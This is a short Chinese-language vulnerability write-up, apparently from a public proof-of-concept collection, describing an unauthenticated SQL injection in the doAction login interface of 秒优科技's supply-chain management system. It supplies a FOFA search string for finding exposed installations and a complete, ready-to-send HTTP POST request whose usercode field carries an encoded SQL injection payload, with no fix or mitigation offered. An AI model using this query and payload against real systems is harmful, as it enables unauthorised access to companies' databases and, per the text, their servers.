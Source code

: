 # 秒优科技-供应链管理系统doAction存在SQL注入漏洞

由于秒优科技-供应链管理系统 doAction 接口未对用户传入的参数进行合理的校验和过滤，导致传入的参数直接携带到数据库执行，导致SQL注入漏洞，未经身份验证的攻击者可通过此漏洞获取数据库权限，深入利用可获取服务器权限。

## fofa
```javascript
app="秒优科技-供应链管理系统"
```

## poc
```javascript
POST /zh/login/doAction HTTP/1.1
Host: 
X-Requested-With: XMLHttpRequest
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Priority: u=0

{"usercode":"1'+(SELECT CHAR(83)+CHAR(87)+CHAR(119)+CHAR(105) WHERE 6635=6635 AND 2366 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(98)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (2366=2366) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)+CHAR(107)+CHAR(106)+CHAR(113))))+'","password":"1","remember":false,"ip":null,"city":null,"ISERP":"ISERP"}
```

![image-20241219151645423](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191516482.png)